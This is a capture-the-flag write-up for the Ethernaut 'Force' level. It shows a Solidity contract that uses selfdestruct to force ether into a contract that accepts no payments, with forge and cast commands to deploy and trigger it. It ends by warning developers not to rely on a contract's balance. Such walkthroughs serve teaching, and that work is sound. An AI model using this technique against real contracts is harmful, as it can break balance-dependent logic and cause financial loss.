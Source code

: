 ## Force Level Outline

**Difficulty : 5/10**

Some contracts will simply not take your money ¯\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x22699e6AdD7159C3C385bf4d7e1C647ddB3a99ea)

## Solution
We can call the selfdestruct function (which takes an address as a parameter) to force send all remaining ether in this contract to the level address.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Contract {
    address payable target;

    constructor(address payable _target) {
        target = _target;
    }

    function explode() public payable {
        selfdestruct(target);
    }
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:Contract --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. Call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "explode()" --value 0.0001ether --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## Further Reading
As seen from above, it is important not to count on the invariant `address(this).balance == 0` for any contract logic.

### [:arrow_left: Back To Main Menu](../)
